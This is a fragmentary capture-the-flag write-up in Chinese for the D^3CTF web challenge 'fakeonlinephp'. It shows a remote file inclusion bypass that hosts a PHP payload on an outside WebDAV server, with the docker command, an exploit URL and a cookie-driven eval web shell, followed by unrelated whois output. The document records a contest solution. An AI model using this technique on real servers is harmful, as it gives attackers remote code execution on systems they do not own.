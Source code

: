 
 d3ctf{Th4at's_A_Si11y_P0p_chi4n} 





###  fakeonlinephp

报错

```

Warning: include(): http:// wrapper is disabled in the server configuration by allow_url_include=0 in C:\Users\w1nd\Desktop\web\nginx-1.17.6\html\index.php on line 1

Warning: include(http://39.108.164.219:60005/1.txt): failed to open stream: no suitable wrapper could be found in C:\Users\w1nd\Desktop\web\nginx-1.17.6\html\index.php on line 1

Warning: include(): Failed opening 'http://39.108.164.219:60005/1.txt' for inclusion (include_path='.;C:\Users\Public\Videos;\c:\php\includes;c:\php\pear;') in C:\Users\w1nd\Desktop\web\nginx-1.17.6\html\index.php on line 1
```

虽然禁用了http协议,但是还是会发送请求

unc路径远程文件包含

一键启动一个webdav服务器

`docker run -v /root/webdav:/var/lib/dav -e ANONYMOUS_METHODS=GET,OPTIONS,PROPFIND -e LOCATION=/webdav -p 80:80 --rm --name webdav bytemark/webdav`然后把php文件放到/root/webdav/data里就行了

http://02f4483e31.fakeonelinephp.d3ctf.io/?orange=C:/Users/w1nd/AppData/Local/Temp/fffffffffuckccrf

eval($_COOKIE['a']);



whois

```
Domain Name: D3CTF.IO
Registry Domain ID: D503300001132938421-LRMS
Registrar WHOIS Server: whois.namesilo.com
Registrar URL: http://www.namesilo.com
Updated Date: 2019-10-14T20:31:26Z
Creation Date: 2019-08-15T11:56:00Z
Registry Expiry Date: 2020-08-15T11:56:00Z
Registrar Registration Expiration Date:
Registrar: Namesilo, LLC
Registrar IANA ID: 1479
Registrar Abuse Contact Email: 
Registrar Abuse Contact Phone: +1.4805240066
Reseller:
Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
Registrant Organization: See PrivacyGuardian.org
Registrant State/Province: AZ
Registrant Country: US
Name Server: DNS21.HICHINA.COM
Name Server: DNS22.HICHINA.COM
DNSSEC: unsigned

The Registrar of Record identified in this output may have an RDDS service that can be queried 
for additional information on how to contact the Registrant, Admin, or Tech contact of the 
queried domain name.
```
